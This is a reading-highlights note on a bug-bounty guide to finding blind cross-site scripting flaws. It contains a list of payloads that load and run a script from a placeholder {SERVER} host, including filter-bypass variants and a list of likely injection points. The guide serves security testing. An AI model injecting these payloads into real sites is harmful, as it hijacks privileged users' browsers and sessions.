 ```yaml
---
author: novasecio
aliases:
  - "Hunting for Blind XSS Vulnerabilities: A Complete Guide"
tags:
  - readwise/articles
url: https://www.intigriti.com/researchers/blog/hacking-tools/hunting-for-blind-cross-site-scripting-xss-vulnerabilities-a-complete-guide
date: 2025-01-07
---
```

# Hunting for Blind XSS Vulnerabilities: A Complete Guide

![rw-book-cover](https://blog.intigriti.com/icon.svg)


Blind XSS vulnerabilities are quite different as the reflection happens on a component that's not accessible to the attacker (for example, an internal-only administrative panel, or a support dashboard accessible by the helpdesk employees only). Moreover, the execution is also dependent on a privileged user that has access to the vulnerable component.
> [View Highlight](https://read.readwise.io/read/01jh020meaj7ww73j0t064pf5k)


A common approach taken is by loading a JavaScript file from your end. For that, we'd need a dedicated server that is set up to listen and handle any incoming invocations. Luckily for us, there are already open-source projects and managed solutions (sometimes paid) that we can use.
 - [XSSHunter](https://github.com/mandatoryprogrammer/xsshunter-express) by [@IAmMandatory](https://x.com/IAmMandatory) is one of them. It's open-source and easy to set up in just 5 minutes.

> [View Highlight](https://read.readwise.io/read/01jh021eg91cws70m212mp8shr)



## Injecting an external script

 This is the most common approach taken. It also allows us to bypass any applicable character limitations and makes sure our code executes without any issues. This payload will work in multiple contexts.
 
```html
 '"><script src="{SERVER}/script.js"></script>
```
 
 ### Injecting an external script (bypass)
 
 In case your payload with the script tag is blocked, we can use a simple bypass with a simple SVG tag. The following payload also makes use of base64 encoding to help prevent execution errors with our payload due to incorrect URL encoding.
```html
'"><svg onload="eval(atob(this.id))">
```
 Here's the base64 decoded payload:
```html
 const x=document.createElement('script');x.src='{SERVER}/script.js';document.body.appendChild(x);
 ```
> [View Highlight](https://read.readwise.io/read/01jh0221k7bnx14ahvcsh56r3g)

## HTTP callback

 In some cases, limited HTML is accepted and all other tags are filtered. In that case, we can still try to check if the component is vulnerable to potential blind XSS by injecting an image tag.
```html
 '"><img src="{SERVER}/img.png">
 ```
 More advanced payloads
```html
 <!-- Image tag -->
 '"><img src="x" onerror="eval(atob(this.id))">
 <!-- Input tag with autofocus -->
 '"><input autofocus onfocus="eval(atob(this.id))">
 <!-- In case jQuery is loaded, we can make use of the getScript method -->
 '"><script>$.getScript("{SERVER}/script.js")</script>
 <!-- Make use of the JavaScript protocol (applicable in cases where your input lands into the "href" attribute or a specific DOM sink) -->
 javascript:eval(atob("Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw=="))
 <!-- Render an iframe to validate your injection point and receive a callback -->
 '"><iframe src="{SERVER}"></iframe>
 <!-- Bypass certain Content Security Policy (CSP) restrictions with a base tag -->
 <base href="{SERVER}" />
 <!-- Make use of the meta-tag to initiate a redirect -->
 <meta http-equiv="refresh" content="0; url={SERVER}" />
 <!-- In case your target makes use of AngularJS -->
 {{constructor.constructor("import('{SERVER}/script.js')")()}}
 ```
 
 >[!tip]
 >Try to include a random string or keyword in your payload to track your injection points.

> [View Highlight](https://read.readwise.io/read/01jh022t45y7setqmjjx8dxf9z)



No target is the same but a key rule to follow is to test for blind XSS vulnerability in any type of web component or feature that processes user input and is likely to be processed by internal tooling or reviewed by a privileged user.

 Some examples include:
- Feedback forms (especially when the company does not rely on third-party vendors for this feature)
- Parameters processed by analytic engines (UTM parameters are always a good start)
- Request headers processed by analytics engines (referrer headers are almost always parsed)
- Blogs and help documentation
- Generic errors
- Invoices or receipts for orders

> [View Highlight](https://read.readwise.io/read/01jh024mzqfrzrav3m68ht5c2e)



